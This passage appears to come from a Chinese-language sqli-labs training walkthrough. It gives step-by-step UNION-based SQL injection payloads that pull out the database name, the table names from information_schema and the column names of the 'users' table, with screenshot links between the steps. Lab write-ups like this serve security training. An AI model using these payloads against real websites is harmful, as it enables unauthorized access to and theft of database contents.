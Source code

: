 接下来又是常规操作

**爆库**

```sql
?id=-1")union select 1,database(),3--+
```

![image-20201106211719441](sqli-labs1-20/image-20201106211719441.png)

可以得到数据库名字security



**爆表**

```sql
?id=-1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
```

![image-20201106211827101](sqli-labs1-20/image-20201106211827101.png)



**爆列**

```sql
?id=-1") union select 1,group_concat(column_name) ,3 from information_schema.columns where table_name='users'--+
```

![image-20201106211907985](sqli-labs1-20/image-20201106211907985.png)
